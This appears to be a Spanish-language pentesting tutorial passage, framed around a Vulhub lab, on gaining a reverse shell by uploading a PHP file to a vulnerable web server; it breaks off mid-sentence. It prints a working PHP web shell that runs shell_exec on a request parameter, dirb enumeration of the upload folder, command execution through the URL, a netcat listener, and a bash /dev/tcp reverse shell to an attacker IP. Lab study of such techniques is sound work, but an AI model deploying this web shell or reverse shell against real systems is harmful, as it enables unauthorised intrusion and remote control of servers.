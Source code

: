 ### Reverse Shell con php

- Lo ideal es encontrar un sitio web vulnerable (Vulhub)
- El sitio tiene una subida de archivos de cualquier tipo:

En el btn de selección de archivos, subimos el archivo con el código php para la ejecución del código:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre";
?>
```

Podemos utilizar una herramienta llamada `dirb` para encontrar directorios web

En Kali lo siguiente:

```sh
(root@kali)- [/home/kali/Desktop]
-> dirb http://elsitioweb
...

====> DIRECTORY: http://elsitioweb/uploads/
```

- Copiamos esa ruta... la llevamos a la url
- Ubicamos el archivo malicioso, copiamos el nombre - lo agregamos a la URL
- Nos queda lo siguiente en la URL:

```sh
-> http://elsitioweb/uploads/pwned.php?cmd=whoami
-> http://elsitioweb/uploads/pwned.php?cmd=id
-> http://elsitioweb/uploads/pwned.php?cmd=ls
```

Y ya puedo ejecutar comando desde la url.

Solo faltaría enviar un comando que conecte con nuestro servidor:

```sh
$ ifconfig
# nos devuelve nuestra IP

$ nc -nlvp 443 # cualquier puerto
```

Necesitamos que vaya el comando en la URL:

```sh
$ bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'
# esto asi, no nos sirve
```

Podemos capturarlo con 

